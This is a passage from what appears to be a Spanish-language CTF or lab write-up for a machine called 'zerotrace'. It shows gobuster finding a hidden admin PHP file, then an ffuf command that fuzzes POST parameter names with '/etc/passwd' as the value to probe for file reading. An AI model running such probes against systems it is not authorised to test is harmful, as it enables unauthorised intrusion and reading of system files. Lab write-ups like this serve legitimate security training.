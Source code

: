 ![gobuster](../../../assets/images/zerotrace/gobuster.png)

Encontramos el archivo `/.admin/tool.php`. Al ser un archivo PHP que no muestra ningún contenido (0 caracteres), procedimos a realizar fuzzing de parámetros tanto POST como GET para descubrir posibles vectores de entrada.

Fuzzing de parámetros POST.

```bash
ffuf -u "http://192.168.1.187/.admin/tool.php" -X POST -d "FUZZ=/etc/passwd" -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 0
```

![ffuf-post](../../../assets/images/zerotrace/ffuf-post.png)
